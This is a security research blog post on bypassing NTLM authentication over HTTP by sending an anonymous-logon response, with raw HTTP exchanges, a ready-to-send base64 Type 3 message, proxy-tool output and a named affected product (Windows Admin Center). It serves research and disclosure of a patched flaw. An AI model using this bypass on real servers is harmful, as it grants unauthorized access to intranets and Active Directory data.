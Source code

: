 +++
title = "Bypassing NTLM auth over HTTP"
description = "Exploring the so called NT ANONYMOUS_LOGON user through HTTP endpoints"
tags = [
"howto",
"research",
"ntlm",
"web",
]
date = "2022-03-06 17:00:00"
categories = [
"Research",
"Exploration",
]
keywords = [
"ntlm",
"howto",
"research",
"anonymous",
]
menu = "main"
images = ["/ntlm_http/wma-auth1.png"]
+++


Exploring the so called NTLM ANONYMOUS_LOGON user through HTTP endpoints.
![Home](/ntlm_http/wma-auth1.png)
<!--more-->


# Some background

Through the years NTLM authentication has been used in various protocols as a convenient way
to authenticate on a Windows network :

- SMB usually for file sharing
- RDP 
- NNS an "authenticated" TCP stack for .NET applications
- HTTP


The NTLM authentication usually takes place in 3 steps :

```text
CLIENT Sends a negotiation message --------------------> SERVER   
CLIENT <-------------------- A challenge is given by the SERVER
CLIENT Sends a challenge response (creds) -------------> SERVER         
```

NTLM versions (1/2) and various negotiation flags will determine how the authentication is *"encrypted"* between
the server and the client.



Btw [http://davenport.sourceforge.net/ntlm.html]([http://davenport.sourceforge.net/ntlm.html]) is a must-read if you're getting started with this protocol !

# NTLM over HTTP

In this article, we'll turn our attention to its usage over the HTTP protocol.

If you ever accessed your company's intranet after logging in with your workstation without being asked for credentials, 
chances are NTLM was used in the background to authenticate to the remote webserver.

![Home](/ntlm_http/intra_example.png)

NTLM being a connection oriented protocol, HTTP keep-alive is used to keep the user authenticated through the same connection.

### Negotiation over HTTP
Let's look at how the protocol is actually working over the wire :

The client sends :
```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
```

The reply from the server indicates a `401 Unauthorized` but lets us know that NTLM authentication is available
through the `WWW-Authenticate` header :

```http request
HTTP/1.1 401 Unauthorized
Date: Sat, 04 Jun 2022 02:19:43 GMT
WWW-Authenticate: NTLM
Content-Length: 381
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
</body></html>
```

The client will then initiate a negotiation, over the same connection, using the `Authorization` header with the
`NTLM` prefix.

The base64 encoded string is a [Type 1 message](http://davenport.sourceforge.net/ntlm.html#theType1Message) letting the server know the client's capabilities :

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
Authorization: NTLM TlRMTVNTUAABAAAAMYCI4AAAAAAoAAAAAAAAACgAAAAAAAAAAAAAAA==
```

### Server challenge over HTTP

The server still replies with a `401 Unauthorized` but this time provides a [Type 2 message](http://davenport.sourceforge.net/ntlm.html#theType2Message) in the `WWW-Authenticate`
header :

```http request
HTTP/1.1 401 Unauthorized
Date: Sat, 04 Jun 2022 02:19:43 GMT
Server: Apache
WWW-Authenticate: NTLM TlRMTVNTUAACAAAADAAMADgAAAA1gonilM550+1I+dYAAAAAAAAAAJIAkgBEAAAACgA5OAAAAA9EAE8ATQBBAEkATgACAAwARABPAE0AQQBJAE4AAQAMAEEAUABQAFMAMQA1AAQAGABkAG8AbQBhAGkAbgAuAGwAbwBjAGEAbAADACYAQQBQAFAAUwAxADUALgBkAG8AbQBhAGkAbgAuAGwAbwBjAGEAbAAFABgAZABvAG0AYQBpAG4ALgBsAG8AYwBhAGwABwAIAKFXn425d9gBAAAAAA==
Content-Length: 381
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
</body></html>
```

This header provides multiple information about the remote server, including it's operating system, DNS names, and which Domain it belongs to.

[Internal Information Disclosure using Hidden NTLM Authentication](https://medium.com/swlh/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666)
is a great read an often used by bug-hunters to find and disclose information about their target.

At this point, all HTTP clients gives you the choice to input a username and password, however, none of them are mentionning another
connection method.

Now let's think about this for a second :

- We know SMB can use NTLM
- We know SMB has an "Anonymous" feature

### Challenge response and auth over HTTP

Reading carefully [Microsoft documentation](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nlmp/b38c36ed-2804-4868-a9ff-8dd3182128e4) about NTLM 
reveals an interesting bit of information that's usually NOT implemented by NTLM clients :

![Home](/ntlm_http/MS_NOTE_ANON.png)

Using Golang as a framework, we were able to implement the missing feature in an already existing NTLM library :

![Home](/ntlm_http/godiff.png)

Kudos to [@Bodgit](https://github.com/bodgit) for creating such a clean library !

#### Creating a client supporting Anonymous authentication

While modifying a browser for this particular case could be interesting, we instead decided to write a [proxy](https://github.com/LeakIX/NTLMAnonProxy) handling
the anonymous authentication workflow over HTTP :

```shell
$ ./NTLMAnonProxy-linux-amd64 127.0.0.1 9999
2022/06/04 04:18:06 Starting NTLM HTTP proxy on 127.0.0.1:9999
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Intercepted request
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Proposing NTLM, forcing ANONYMOUS auth
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Received NTLM challenge
2022/06/04 04:18:41 http://192.168.0.41:8080/ : Sent NTLM AUTH
```

#### Checking the results

We know continue our request process over the same connection, and instead of providing a username and password, we implement
the anonymous authentication.

This has the effect of requesting Windows to authenticate as `ANONYMOUS LOGON/NT AUTHORITY`.

```http request
GET / HTTP/1.1
Host: 192.168.0.41:8080
Authorization: NTLM TlRMTVNTUAADAAAAAQABAEgAAAAAAAAASQAAAAAAAABIAAAAAAAAAEgAAAAAAAAASAAAABAAEABJAAAANYKJ4AAAAAAAAAAAAEkIUrOKi10Sk8ki/EV6PpA=
```

#### The application 

What will happen next depends on the application using NTLM as authentication source.

If the application is configured to accept any login, `ANONYMOUS LOGON/NT AUTHORITY` will be considered as valid
authentication and various privileges can be granted to the end-user :

```http request
HTTP/1.1 200 OK
Date: Sat, 04 Jun 2022 02:19:43 GMT
X-UA-Compatible: IE=edge
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
X-Frame-Options: deny
Content-Length: 6901
Content-Type: text/html; charset=ISO-8859-1
```

And in this case we are indeed allowed access to the application (an intranet) as `ANONYMOUS LOGON/NT AUTHORITY`.


## Affected softwares

Various software are actually affected by this flaw.

One of the surprise we found was the **Windows Admin Center**, a piece of software used to administer Domains and
cluster of the web :

![Home](/ntlm_http/wma-auth1.png)

As it can be seen here, requests to Active Directory can be made, and all kinds of information can be retrieved through the API :

![Home](/ntlm_http/wma-auth2.png)

While we did notice some **Powershell endpoints** exposed, however Windows UAC acts as a last protection and requests a confirmation on
the local machine.

This flaw we rediscovered was in fact what we believe to be `CVE-2021-27066` has been fixed with a `403` page after
anonymous authentication.

Plenty of servers are still online with a older versions, and pen-testing your next LAN should definitely include this technique !

## Other protocols

Here we explored HTTP as we couldn't find any client allowing for such authentication and suspected it would yield results.

[NNS](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-nns/aaa2adb8-34a0-461c-941e-fca1319c5a50) is another protocol often used by .NET applications and was in fact the source of the last [Veeam critical RCE vulnerability](https://twitter.com/ptswarm/status/1503360681978077185).

We will continue exploring other protocols for the same mis-configuration !
